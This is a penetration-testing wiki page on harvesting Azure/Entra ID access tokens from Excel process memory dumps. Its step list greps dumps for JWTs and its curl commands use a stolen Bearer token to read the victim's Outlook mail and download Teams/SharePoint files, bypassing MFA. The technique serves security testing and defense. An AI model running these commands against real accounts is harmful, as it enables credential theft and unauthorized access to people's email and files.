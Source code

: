 # Az - Processes Memory Access Token

{{#include ../../../banners/hacktricks-training.md}}

## **Basic Information**

As explained in [**this video**](https://www.youtube.com/watch?v=OHKZkXC4Duw), some Microsoft software synchronized with the cloud (Excel, Teams...) might **store access tokens in clear-text in memory**. So just **dumping** the **memory** of the process and **grepping for JWT tokens** might grant you access over several resources of the victim in the cloud bypassing MFA.

Steps:

1. Dump the excel processes synchronized with in EntraID user with your favourite tool.
2. Run: `string excel.dmp | grep 'eyJ0'` and find several tokens in the output
3. Find the tokens that interest you the most and run tools over them:

```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```

**Note that these kind of access tokens can be also found inside other processes.**

{{#include ../../../banners/hacktricks-training.md}}





